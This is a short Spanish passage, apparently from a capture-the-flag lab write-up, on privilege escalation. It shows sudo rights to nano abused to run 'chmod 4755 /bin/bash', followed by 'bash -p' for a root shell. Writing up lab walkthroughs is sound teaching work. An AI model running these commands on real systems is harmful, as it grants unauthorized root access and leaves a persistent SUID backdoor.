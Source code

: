 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Aqui vemos que podemos ejecutar nano /opt/priv como el usuario root sin proporcionar contraseña.

```bash
sudo -u root nano /opt/priv

Ctrl+r
Ctrl+x

chmod 4755 /bin/bash

Enter
```

Ya podemos ver que la `/bin/bash` tiene privilegios SUID y que podemos convertirnos en root para leer la flag

```bash
ls -la /bin/bash
bash -p
whoami
#Output
root
```
